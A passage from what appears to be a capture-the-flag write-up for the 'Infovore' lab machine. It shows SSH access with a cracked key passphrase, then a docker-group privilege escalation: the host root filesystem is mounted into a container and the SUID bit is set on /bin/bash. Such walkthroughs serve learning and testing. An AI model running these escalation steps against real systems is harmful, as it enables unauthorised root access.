### SSH to Host

```bash
ssh -i id_rsa admin@192.168.150.1
# Passphrase: choclate93
```

![Host Access](images/Pasted%20image%2020251013022934.png)

**Success**: Escaped container to actual host machine.

## Privilege Escalation

### Docker Group Membership

```bash
admin@infovore:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin),999(docker)
```

**Critical Finding**: User is member of Docker group.

### Container Privilege Escalation

**Create privileged container with root filesystem mounted**:

```bash
docker run -dit -v /:/mnt/root --name privesc theart42/infovore
```

**Access container**:

```bash
docker exec -it privesc bash
```

**Modify host bash binary**:

```bash
cd /mnt/root/bin
chmod u+s bash
exit
```
